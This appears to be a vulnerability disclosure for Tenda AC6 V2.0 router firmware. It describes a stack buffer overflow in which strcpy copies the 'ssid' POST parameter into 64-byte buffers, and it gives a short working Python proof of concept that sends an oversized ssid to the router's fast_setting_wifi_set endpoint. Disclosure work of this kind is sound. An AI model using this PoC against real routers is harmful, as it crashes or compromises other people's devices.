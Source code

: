 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "form_fast_setting_wifi_set"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/2855)

In the `form_fast_setting_wifi_set` function, a user-crafted POST request can pass the **`ssid` variable** to the backend. Inside the function, **`strcpy` is used directly to write this variable into the stack-allocated buffers `ssid_24g[64]` and `ssid_5g[64]` without any prior validation**. This easily leads to a **stack overflow**.

![image-20250618165329584](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250618165329584.png)

poc

```
import requests
def send_payload(url, payload):
    params={
            'ssid':payload
            }
    cookie={'password':'yectgb'}
    response = requests.post(url,cookies=cookie,data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

payload=b'a'*0x2000+b'\n'
url="http://192.168.1.1/goform/fast_setting_wifi_set"
send_payload(url, payload)   
```

![image-20250618165436040](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250618165436040.png)